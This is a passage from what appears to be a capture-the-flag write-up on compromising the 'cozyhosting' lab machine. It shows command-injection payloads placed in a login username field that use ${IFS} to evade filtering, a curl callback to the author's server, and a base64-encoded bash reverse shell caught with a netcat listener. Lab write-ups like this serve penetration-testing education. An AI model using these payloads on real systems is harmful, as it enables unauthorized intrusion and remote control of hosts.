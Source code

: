 I used this to try curl again.

```
host=localhost&username=kanderson;curl${IFS}10.10.14.59#
```

The response showed curl had downloaded something.

```
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0100   187  100   187    0     0   2920      0 --:--:-- --:--:-- --:--:--  2968
```

And my web server was hit.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.88 - - [11/Nov/2023 15:25:23] "GET / HTTP/1.1" 200 
```

With this, I could build a reverse shell. First I made one in base64 to remove characters that could cause issues in the request.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.59/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK
```

Then I started a netcat listener and sent my payload to the server.

```
host=localhost&username=kanderson;echo${IFS}YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK|base64${IFS}-d|bash;#
```

I had a shell.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.229.88] 49488
bash: cannot set terminal process group (1009): Inappropriate ioctl for device
bash: no job control in this shell

app@cozyhosting:/app$ whoami
whoami
app
```

## User josh

I was on the server, but there was not much my user could do. However, I found a jar file. I downloaded the file to my machine and extracted the files it contained.

```bash
$ unzip cloudhosting-0.0.1.jar                                                                                       
Archive:  cloudhosting-0.0.1.jar                                                                                     
   creating: META-INF/                                                                                               
  inflating: META-INF/MANIFEST.MF                                                                                    
   creating: org/                                                                                                    
   creating: org/springframework/                                                                                    
```